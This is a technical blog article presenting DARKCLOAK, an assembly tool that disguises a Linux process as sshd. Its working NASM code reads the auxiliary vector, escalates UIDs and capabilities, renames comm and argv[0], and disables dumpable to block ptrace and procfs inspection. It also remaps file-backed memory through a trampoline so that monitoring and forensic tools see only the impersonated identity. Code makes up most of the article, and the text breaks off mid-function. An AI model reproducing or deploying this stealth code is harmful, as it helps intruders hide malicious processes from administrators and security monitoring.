




<div class="article-header">
<h1>DARKCLOAK: Novel Flow for Process Masquerading</h1>
<span class="article-meta">17/06/2026 · 90 min</span>
</div>

Process identity spoofing on Linux from userspace, no dependencies.

---

!!! warning "Responsible use"
    The content of this website is published **exclusively for educational and informational purposes**. The author **does not promote, endorse, or accept responsibility** for any misuse or illegal use of the information presented here. Any action taken based on this content must be carried out **only** in controlled environments, on systems you own, or **with explicit and verifiable authorization** from the system owner.

## Introduction

The three previous articles in this series cover, separately, the kernel subsystems involved in a process's identity: the [credentials model](../kernel-theory/identity-model.md) (UIDs, GIDs, capabilities and their transitions), the [ELF format and the auxiliary vector](../kernel-theory/elf-internals.md) (how the kernel loads a binary and what it builds in the address space) and the [visible identity sources of a process](../kernel-theory/process-identity.md) (what the kernel exposes and how it is manipulated from userspace).

This article unifies the three previous ones in a fully functional practical case. DARKCLOAK chains the manipulation of all user-space-queryable sources in a sequential 11-phase pipeline, progressively transforming the visible identity of the process until it becomes indistinguishable from the impersonated process to monitoring and analysis tools.

==The source code is available [here](https://github.com/0x574R/Darkcloak/blob/main/mime.asm).==

!!! scope "Contribution"
    To the best of our knowledge, no published tool combines the simultaneous manipulation of **all** visible identity sources from userspace.

## Design Decisions

DARKCLOAK is written in NASM x86-64, compiled with `nasm -f elf64` and linked with `ld` without `libc`. The resulting binary is a **static ELF with three `PT_LOAD` segments**: segment **00** contains the ELF headers and Program Header Table (PHT), segment **01** contains the executable instructions and segment **02** stores the initialized and uninitialized global data.

{.img-centered width=920 }

{.img-centered width=920 }

This is critically important: the running process's memory map will contain exclusively these three segments, the stack and the kernel vDSO. This lets us know at all times which VMAs we need to anonymize and how to construct the trampolines.

```bash
# Build
nasm -f elf64 darkcloak.asm -o darkcloak.o
ld darkcloak.o -o darkcloak
```

```bash
PT_LOAD 00  (headers + PHT, read-only)
PT_LOAD 01  (executable code, read+execute)
PT_LOAD 02  (data, read+write)
[stack]
[vDSO]
```

## Impersonation Data

The data used for identity spoofing is defined in the `.data` section and defaults to impersonating the `sshd` service. To impersonate a different process, these values would simply need to be changed.

```nasm
segment .data

    mimic_name db 'sshd',0
    mimic_argv db './sshd',0
    mimic_exe db '/usr/sbin/sshd',0

    mimic_cmdline db '/usr/sbin/sshd',0,'-D',0,
                     '-oCiphers=aes256-gcm@openssh.com',0,
                     '-oMACs=hmac-sha2-256',0,
                     '-f',0,'/etc/ssh/sshd_config',0
    mimic_cmdline_length equ $ - mimic_cmdline

    mimic_environ db 'LANG=en_US.UTF-8',0,
                     'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin',0,
                     'NOTIFY_SOCKET=/run/systemd/notify',0,
                     'INVOCATION_ID=a1b2c3d4e5f6',0
    mimic_environ_length equ $ - mimic_environ
```

The `cmdline` includes realistic `sshd` arguments (`-D`, `-oCiphers`, `-oMACs`, `-f`), while `environ` contains environment variables typical of a `systemd`-managed service (such as `NOTIFY_SOCKET` or `INVOCATION_ID`).

## Initial State

If the process is inspected before applying the spoofing mechanisms, all sources expose the real identity. The memory map references the loaded binary, the credentials reflect the state at launch and the `procfs`-based observation interfaces show the original information.

```bash
# Build
nasm -f elf64 darkcloak.asm -o darkcloak.o
ld darkcloak.o -o darkcloak
```

```bash
# Run
./darkcloak &
PID=$!
```

```bash
# Check state
cat /proc/$PID/comm
readlink /proc/$PID/exe
cat /proc/$PID/cmdline | tr '\0' ' '
cat /proc/$PID/environ | tr '\0' '\n' | head -3
cat /proc/$PID/maps | head -3
cat /proc/$PID/status | grep -E 'Uid|Cap|Gid'
ps aux | grep $PID
```

{.img-centered width=920 }

## Execution Flow

The pipeline consists of 11 phases in a strict order where each phase adapts to the results produced by the previous ones. **This order is not an implementation choice. It is dictated by the dependencies between the kernel subsystems being manipulated.**

{.flowchart-img }

**ELF introspection** goes first because segment ranges are obtained from the auxiliary vector on the stack (covered in article 2), needed for VMA anonymization in phase 5. **UID escalation** precedes capability escalation because `EUID=0` maximizes the permitted set. **Capability escalation** precedes spoofing because `PR_SET_MM` requires `CAP_SYS_RESOURCE`. **Capability retention** precedes **UID demotion** because without it the kernel's UID fixup would modify the capability sets (as explained in article 1). **Namespaces** go last because `CLONE_NEWUSER` creates an independent capability context.

## Step-by-Step Walkthrough

### Phase 1: ELF Introspection

First, the ranges of the process's own segments must be determined before VMA anonymization can be performed. This information is **available in the auxiliary vector**, located on the stack.

<div class="stack-layout"><pre>[ high end of the stack ]
+----------------------------------+
| argv, envp, filename strings     |  NULL-terminated bytes
+----------------------------------+
| alignment padding (16 B)         |
<span class="hl-orange">+----------------------------------+</span>
<span class="hl-orange">| AT_NULL  (0x00, 0x00)            |  16-byte NULL: auxv terminator</span>
<span class="hl-orange">| ...                              |</span>
<span class="hl-orange">| AT_ENTRY (0x09, address)         |  16 bytes per entry</span>
<span class="hl-orange">| AT_PHNUM (0x05, value)           |</span>
<span class="hl-orange">| AT_PHENT (0x04, value)           |</span>
<span class="hl-orange">| AT_PHDR  (0x03, address)         |  start of auxv (auxiliary vector)</span>
<span class="hl-orange">+----------------------------------+</span>
| NULL                             |  8-byte NULL: envp[] terminator
| envp[n-1]  (pointer)             |
| ...                              |
| envp[0]    (pointer)             |
+----------------------------------+
| NULL                             |  8-byte NULL: argv[] terminator
| argv[argc-1] (pointer)           |
| ...                              |
| argv[0]      (pointer)           |
+----------------------------------+
| argc                             |  8 bytes (unsigned long)
+----------------------------------+
↑ RSP points here at the entry point</pre></div>

`AT_PHDR` indicates where the Program Header Table is in memory, `AT_PHENT` the size of each entry and `AT_PHNUM` how many entries there are.

```nasm
; The following fragment traverses the stack up to the auxiliary vector,
; obtaining AT_PHDR, AT_PHENT and AT_PHNUM — the three values needed
; to iterate the PHT without reading /proc/self/maps.

; .bss

    phdr_value resq 1     ; buffer to store the virtual address of the PHT
    phent_value resq 1    ; buffer to store the size in bytes of each Elf64_Phdr entry
    phnum_value resq 1    ; buffer to store the total number of PHT entries
    
; .text

_start:
    mov r15, rsp
    add r15, 8              ; skip argc (8 bytes)

argv_loop:
    cmp qword [r15], 0      ; iterate until argv[] NULL terminator
    je envp_loop
    add r15, 8
    jmp argv_loop

envp_loop:
    add r15, 8              ; skip argv[] NULL terminator
    cmp qword [r15], 0      ; iterate until envp[] NULL terminator
    jne envp_loop
    add r15, 8              ; skip envp[] NULL terminator
                            ; r15 now points to the first {a_type, a_val} pair of the auxv

auxv_loop:
    mov r13, [r15]          ; key (a_type)
    add r15, 8
    mov r14, [r15]          ; value (a_val)
    add r15, 8
    cmp qword [r15], 0      ; AT_NULL (a_type=0) = end of auxv
    jne auxv_par
    jmp pht_entry

auxv_par:
    cmp r13, 3              ; AT_PHDR
    je phdr_entry
    cmp r13, 4              ; AT_PHENT
    je phent_entry
    cmp r13, 5              ; AT_PHNUM
    je phnum_entry
    jmp auxv_loop
    
phdr_entry:
    mov [rel phdr_value], r14  ; save the PHT base address
    jmp auxv_loop
phent_entry:
    mov [rel phent_value], r14  ; save the size of each Elf64_Phdr
    jmp auxv_loop
phnum_entry:
    mov [rel phnum_value], r14  ; save the number of PHT entries
    jmp auxv_loop  
    
```

With the three `auxv` values in hand (`AT_PHDR`, `AT_PHENT` and `AT_PHNUM`), the PHT is iterated and each `PT_LOAD` is classified by its permissions. For each segment, the aligned end address is calculated using the round-up formula:

```nasm
; Once AT_PHDR, AT_PHENT and AT_PHNUM are obtained from the auxv,
; the PHT is iterated entry by entry. Each PT_LOAD entry is classified
; by its flags to extract the virtual address range of the three binary segments.

; .bss

elf64_phdr:        ; temporary buffer where each Elf64_Phdr entry is copied
    p_type resd 1
    p_flags resd 1
    p_offset resq 1
    p_vaddr resq 1
    p_paddr resq 1
    p_filesz resq 1
    p_memsz resq 1
    p_align resq 1
    
tmp_bss:                                 
    headers_segment_privs resd 1   ; buffer to store segment permissions
    headers_segment_start resq 1   ; buffer to store segment virtual start address (p_vaddr)
    headers_segment_end resq 1     ; buffer to store segment virtual end address aligned to p_align
    
; .text

pht_entry:
    cmp qword [rel phnum_value], 0
    je mime                      ; if phnum_value reaches 0, all PT_LOADs have been processed
    mov rsi, [rel phdr_value]    ; rsi = PHT base address in memory
    lea rdi, [rel elf64_phdr]    ; rdi = local destination buffer
    mov rcx, [rel phent_value]   ; rcx = bytes to copy (size of Elf64_Phdr)
    mov rax, [rel phent_value]    
    ; calculate the address of the PHT entry
    ;   &phdr[r15] = phdr_value + (phent_value * r15)
    imul rax, r15 
    add rsi, rax                  
    cld
    rep movsb                   ; copy the entry into the local elf64_phdr buffer
    dec qword [rel phnum_value] ; decrement remaining entries counter
    inc r15                     ; advance to the next entry index
    cmp dword [rel p_type], 1        ; PT_LOAD?
    jne pht_entry
    ; classify the PT_LOAD by its flags:
    ;   PF_R     (4) → ELF headers + PHT    → PROT_READ (1)
    ;   PF_R|PF_W (6) → data (.data, .bss)  → PROT_READ|PROT_WRITE (3)
    ;   PF_R|PF_X (5) → code (.text)        → PROT_READ|PROT_EXEC (5)
    call check_headers_segment
    call check_data_segment
    call check_text_segment
    jmp pht_entry


check_headers_segment:
    cmp dword [rel p_flags], 4       ; PF_R
    jne .skip
    mov r12, [rel p_vaddr]
    mov [rel headers_segment_start], r12
    add r12, [rel p_memsz]
    ; round up: (addr + (n - 1)) & ~(n - 1)
    mov r13, [rel p_align]
    dec r13                          ; n - 1
    add r12, r13                     ; addr + (n - 1)
    not r13                          ; ~(n - 1)
    and r12, r13                     ; align
    mov [rel headers_segment_end], r12
    mov dword [rel headers_segment_privs], 1  ; PROT_READ
.skip:
    ret
    
```

The same logic repeats for the data segment (`PF_R|PF_W` → `PROT_READ|PROT_WRITE` = 3) and the executable code segment (`PF_R|PF_X` → `PROT_READ|PROT_EXEC` = 5).

### Phase 2: Credential Reading

The current UIDs and GIDs of the process are read to decide the execution branch and allow restoring the original values during the demotion phase.

```nasm
	; Read the three UIDs and three GIDs of the process
	
	; .bss
		
		ruid_val resd 1   ; buffer to store the Real UID value (4 bytes)
    euid_val resd 1   ; buffer to store the Effective UID value (4 bytes)
    suid_val resd 1   ; buffer to store the Saved Set-User-ID value (4 bytes)

    rgid_val resd 1   ; buffer to store the Real GID value (4 bytes)
    egid_val resd 1   ; buffer to store the Effective GID value (4 bytes)
    sgid_val resd 1   ; buffer to store the Saved Set-GID value (4 bytes)
    
	; .text
		mov rax, 118                ; GETRESUID
    lea rdi, [rel ruid_val]
    lea rsi, [rel euid_val]
    lea rdx, [rel suid_val]
    syscall

    mov rax, 120                ; GETRESGID
    lea rdi, [rel rgid_val]
    lea rsi, [rel egid_val]
    lea rdx, [rel sgid_val]
    syscall
```

### Phase 3: UID Escalation

**If any of the three UIDs (real, effective or saved) is 0, the process can set all of them to 0 in a single syscall.** As a consequence, the kernel comes to consider the process as privileged and during the credential readjustment (capability fixup), all privileged capabilities will be set in the **permitted** and **effective** sets.

```nasm
; If any of the three UIDs is 0, the process can invoke
; SETRESUID(0,0,0) to set them all to 0.
	
; .bss
	  
	  ruid_val resd 1   ; Real UID value (4 bytes)
    euid_val resd 1   ; Effective UID value (4 bytes)
    suid_val resd 1   ; Saved Set-User-ID value (4 bytes)

    rgid_val resd 1   ; Real GID value (4 bytes)
    egid_val resd 1   ; Effective GID value (4 bytes)
    sgid_val resd 1   ; Saved Set-GID value (4 bytes)
	
; .text
	
		mov r12d, [rel ruid_val]
    cmp r12d, 0
    je user_escalation          ; RUID = 0 → escalate

    mov r13d, [rel euid_val]
    cmp r13d, 0
    je user_escalation          ; EUID = 0 → escalate

    mov r14d, [rel suid_val]
    cmp r14d, 0
    je user_escalation          ; SUID = 0 → escalate

    jmp caps_escalation         

user_escalation:
    mov rax, 117                ; SETRESUID
    xor rdi, rdi                ; RUID = 0
    xor rsi, rsi                ; EUID = 0
    xor rdx, rdx                ; SUID = 0
    syscall
```

If no UID is 0, the process jumps directly to the capability escalation phase.

### Phase 4: Capability Escalation

**It is possible to maximize the process's capabilities by copying the permitted set into the effective and inheritable sets.** When `EUID=0`, we start with all privileged capabilities in the effective set, but they will be copied to the remaining sets regardless. This way, during a future privilege demotion we can keep capabilities only in the permitted set and activate them later when needed, without keeping them permanently enabled in the effective set.

```nasm
; Copy the permitted set to the effective and inheritable sets.

;   ┌──────────────────────────────────────┐
;   │ datap[0].effective   (caps  0–31)    │  offset  +0
;   │ datap[0].permitted   (caps  0–31)    │  offset  +4
;   │ datap[0].inheritable (caps  0–31)    │  offset  +8
;   ├──────────────────────────────────────┤
;   │ datap[1].effective   (caps 32–63)    │  offset +12
;   │ datap[1].permitted   (caps 32–63)    │  offset +16
;   │ datap[1].inheritable (caps 32–63)    │  offset +20
;   └──────────────────────────────────────┘
;                total: 24 bytes


; .data

    ; struct __user_cap_header_struct
    hdrp:
        dd 0x20080522   ; _LINUX_CAPABILITY_VERSION_3
        dd 0            ; PID 0 = current thread

; .bss

    datap resb 24       ; two contiguous __user_cap_data_struct (12 bytes each)

; .text

caps_escalation:
    ; CAPGET: read the current three sets
    mov rax, 125
    lea rdi, [rel hdrp]
    lea rsi, [rel datap]
    syscall

    ; copy permitted to effective and inheritable (low half, caps 0–31)
    mov r12d, [rel datap+4]     ; datap[0].permitted
    mov [rel datap], r12d       ; datap[0].effective   ← permitted
    mov [rel datap+8], r12d     ; datap[0].inheritable ← permitted
    ; copy permitted to effective and inheritable (high half, caps 32–63)
    mov r13d, [rel datap+16]    ; datap[1].permitted
    mov [rel datap+12], r13d    ; datap[1].effective   ← permitted
    mov [rel datap+20], r13d    ; datap[1].inheritable ← permitted

    ; CAPSET: apply changes to the process
    mov rax, 126
    lea rdi, [rel hdrp]
    lea rsi, [rel datap]
    syscall
```

<div class="stack-layout"><pre>       Before CAPSET:                  After CAPSET:
 ┌─────────────────────────┐ ┌─────────────────────────┐
 │ effective = 0x00... │ │ effective = permitted │
 │ permitted = 0xa8... │ ──▶ │ permitted = 0xa8... │ (unchanged)
 │ inheritable = 0x00... │ │ inheritable = permitted │
 └─────────────────────────┘ └─────────────────────────┘</pre></div>

!!! danger ""
    The most important capability for the spoofing phase is `CAP_SYS_RESOURCE` (bit 24). Without it, the entire `PR_SET_MM` block in phase 5 is skipped.

### Phase 5: Visible Identity Spoofing

The visible identity of a Linux process does not reside in a single modifiable source. It is **distributed across multiple internal system structures**. DARKCLOAK acts on each one through the specific mechanisms that allow its alteration.


#### **Phase 5a: `comm` Change**

The `comm` field in the `task_struct` structure is a 16-byte array, consisting of 15 usable characters plus the null terminator (`\0`), that indicates the **short name of the process**. This field is the source of `/proc/PID/comm` and is queried by tools such as `ps` or `top`, as well as by all eBPF programs that use `bpf_get_current_comm`. Modifying it does not require any special capabilities.

```nasm
	; Modify the comm field of task_struct
	
	; .data
	
	  mimic_name db 'sshd',0
	
	; .text
		
		mov rax, 157                ; PRCTL
    mov rdi, 15                 ; PR_SET_NAME
    lea rsi, [rel mimic_name]   ; pointer to the replacement string ("sshd\0")
    xor rdx, rdx
    xor r10, r10
    xor r8, r8
    syscall
```

!!! note ""
    Names in brackets (`[kworker/0:1]`, `[migration/0]`) are by convention kernel threads. A user-space process can adopt one of these names to blend in with legitimate system processes.

#### **Phase 5b: `argv[0]` Overwrite**

The value `argv[0]` is the **first element of the argument array** the process receives at startup. By convention, **it contains the name or path of the executable that launched the process**. The kernel places it on the stack during `execve`, in the memory region between `arg_start` and `arg_end` of the `mm_struct`.

Assuming the stack has not been modified by the program, overwriting the value stored in `argv[0]` amounts to a direct write to a known location within the process's address space, specifically, to the address pointed to by the pointer located at `rsp+8`.

<div class="stack-layout"><pre>[ high end of the stack ]
<span class="hl-orange">+----------------------------------+</span>
<span class="hl-orange">| argv, envp, filename strings     |  NULL-terminated bytes</span>
<span class="hl-orange">+----------------------------------+</span>
| alignment padding (16 B)         |
+----------------------------------+
| AT_NULL  (0x00, 0x00)            |  16-byte NULL: auxv terminator
| ...                              |
| AT_ENTRY (0x09, address)         |  16 bytes per entry
| AT_PHNUM (0x05, value)           |
| AT_PHENT (0x04, value)           |
| AT_PHDR  (0x03, address)         |  start of auxv (auxiliary vector)
+----------------------------------+
| NULL                             |  8-byte NULL: envp[] terminator
| envp[n-1]  (pointer)             |
| ...                              |
| envp[0]    (pointer)             |
<span class="hl-orange">+----------------------------------+</span>
<span class="hl-orange">| NULL                             |  8-byte NULL: argv[] terminator</span>
<span class="hl-orange">| argv[argc-1] (pointer)           |</span>
<span class="hl-orange">| ...                              |</span>
<span class="hl-orange">| argv[0]      (pointer)           |</span>
<span class="hl-orange">+----------------------------------+</span>
| argc                             |  8 bytes (unsigned long)
+----------------------------------+
↑ RSP points here at the entry point</pre></div>

```nasm
; Overwrite argv[0]  
  
; .data

    mimic_argv db './sshd',0

;.text
    
    mov r12, [rsp+8]                   ; address of the original argv[0] string on the stack
    mov r13, [rel mimic_argv]          ; content of the replacement string ("./sshd\0")
    mov [r12], r13                     ; overwrite the original string with the replacement
```

!!! note ""
    Overwriting `argv[0]` modifies what `/proc/PID/cmdline` returns, since the latter is built from the same memory region that contains the process arguments (`arg_start` and `arg_end`).

#### **Phase 5c: Dumpable Disable (Anti-Debugging and Anti-Dumping)**

With `dumpable = 1` (the default), the files `/proc/PID/maps`, `/proc/PID/mem`, `/proc/PID/environ` and `/proc/PID/auxv` are accessible by the process owner. Setting it to 0 transfers ownership of those files to `root:root`, blocking their read access for any process without `CAP_SYS_PTRACE` in the effective set and causing `ptrace(PTRACE_ATTACH)` from a process with the same UID to fail with `EPERM`.

```nasm
 ; Set dumpable to 0
 
 ;.text
 
    mov rax, 157                ; PRCTL
    mov rdi, 4                  ; PR_SET_DUMPABLE
    mov rsi, 0                  ; DUMPABLE = 0
    xor rdx, rdx
    xor r10, r10
    xor r8, r8
    syscall
```

!!! note ""
    This measure does not alter the process's visible identity. Rather, it significantly hinders inspection by third parties.

#### **Phase 5d: `cmdline`, `environ` and `exe` Spoofing**

The three remaining sources originate in the process's `mm_struct` and are modified through the `PR_SET_MM_*` operations of `PRCTL`. Although all three are managed through the same interface, the manipulation mechanism differs.

`cmdline` and `environ` are manipulated by redirecting the `arg_start`/`arg_end` and `env_start`/`env_end` pointers to controlled buffers. `exe`, on the other hand, is not read from an address range in the process but from the `exe_file` field of the `mm_struct`, which contains a pointer to a kernel `struct file`. Its manipulation requires passing a file descriptor of the target binary so the kernel replaces the reference in its own structures, hence the `CAP_SYS_RESOURCE` requirement and the `EBUSY` error when file-backed VMAs still point to the original executable.

Therefore, before making the modifications, it must be verified that `CAP_SYS_RESOURCE` (bit 24) is present in the effective set:

```nasm
; Check for CAP_SYS_RESOURCE capability

; .bss

    datap resb 24   ; two contiguous __user_cap_data_struct (12 bytes each)

; .text

    mov r14d, [rel datap]       ; datap[0].effective (caps 0–31)
    bt r14d, 24                 ; test CAP_SYS_RESOURCE (bit 24) in the effective set
    jnc caps_ret                ; if CAP_SYS_RESOURCE is absent, skip the entire PR_SET_MM block
                                
```

If the capability is present, all file-backed VMAs must be anonymized.

**VMA anonymization via trampoline**

Since the `.text` segment contains the executable code and RIP points to instructions within it, unmapping it live would cause an immediate segmentation fault. The solution is to build a trampoline: a temporary anonymous memory page from which to execute the entire anonymization process.

```nasm
; Build and jump to the trampoline for anonymization

; .bss

    tmp_mm_addr resq 1   ; buffer to store the start address of the temporary page

tmp_bss:
    headers_segment_privs resd 1  ; PROT_READ (1)
    headers_segment_start resq 1  ; virtual start address of the headers + PHT segment
    headers_segment_end resq 1    ; virtual end address of the headers + PHT segment
    data_segment_privs resd 1     ; PROT_READ | PROT_WRITE (3)
    data_segment_start resq 1     ; virtual start address of the data segment
    data_segment_end resq 1       ; virtual end address of the data segment
    text_segment_privs resd 1     ; PROT_READ | PROT_EXEC (5)
    text_segment_start resq 1     ; virtual start address of the code segment
    text_segment_end resq 1       ; virtual end address of the code segment
    return_addr resq 1            ; jump target after anonymization is complete
tmp_bss_len equ $ - tmp_bss

; .text

tmp_mm:

    ; allocate a temporary anonymous page with RW permissions
    mov rax, 9                  ; MMAP
    xor rdi, rdi                ; kernel chooses base address
    mov rsi, 4096               ; one page (4096 bytes)
    mov rdx, 0x3                ; PROT_READ | PROT_WRITE
    mov r10, 0x22               ; MAP_PRIVATE | MAP_ANONYMOUS
    mov r8, -1                  ; fd = -1 (anonymous)
    xor r9, r9                  
    syscall
    mov rbx, rax                ; rbx = base address of the temporary page
    mov [rel tmp_mm_addr], rax  

    ; copy the anonymization code (mm_start → mm_end) to the temporary page
    lea rsi, [rel mm_start]
    mov rdi, rbx
    mov rcx, mm_end - mm_start
    cld
    rep movsb

    ; store the return address (un_tmp_mm) at the end of the page
    lea r12, [rel un_tmp_mm]
    mov [rel return_addr], r12

    ; copy tmp_bss (segment ranges and permissions) to the end of the page
    mov r12, rbx
    add r12, 4096
    sub r12, tmp_bss_len       
    lea rsi, [rel tmp_bss]
    mov rdi, r12
    mov rcx, tmp_bss_len
    cld
    rep movsb

    ; make the page R-X
    mov rax, 10                 ; MPROTECT
    mov rdi, rbx
    mov rsi, 4096
    mov rdx, 0x5                ; PROT_READ | PROT_EXEC
    syscall

    ; jump to the temporary page
    jmp rbx
```

The code inside the temporary page (`mm_start` → `mm_end`) iterates the three segments and for each one calls the `mm` function:

```nasm
; Anonymization of the three PT_LOAD segments from the temporary page

; .text

mm_start:

    ; each block reads permissions, start/end address and calls the mm function
    ; r12 points to the start of tmp_bss copied to the end of the temporary page
    
    ; headers + PHT segment
    mov r13d, [r12]             ; segment permissions
    add r12, 4
    mov r14, [r12]              ; virtual start address
    add r12, 8
    mov r15, [r12]              ; virtual end address
    add r12, 8
    call mm

    ; data segment
    mov r13d, [r12]
    add r12, 4
    mov r14, [r12]
    add r12, 8
    mov r15, [r12]
    add r12, 8
    call mm

    ; code segment
    mov r13d, [r12]
    add r12, 4
    mov r14, [r12]
    add r12, 8
    mov r15, [r12]
    add r12, 8
    call mm

    ; all three segments are now anonymous VMAs with no reference to the binary on disk
    jmp [r12]     ; jump to return address inside the anonymized .text         
```

The `mm` function executes the anonymization sequence for a specific segment:

```nasm
; Anonymization of a PT_LOAD segment

; Input:
;   r13d = segment permissions (1=PROT_READ, 3=PROT_READ|PROT_WRITE, 5=PROT_READ|PROT_EXEC)
;   r14  = virtual start address of the segment
;   r15  = virtual end address of the segment

; .text
mm:
    sub r15, r14                ; r15 = segment size in bytes

    ; allocate an anonymous region of the same size
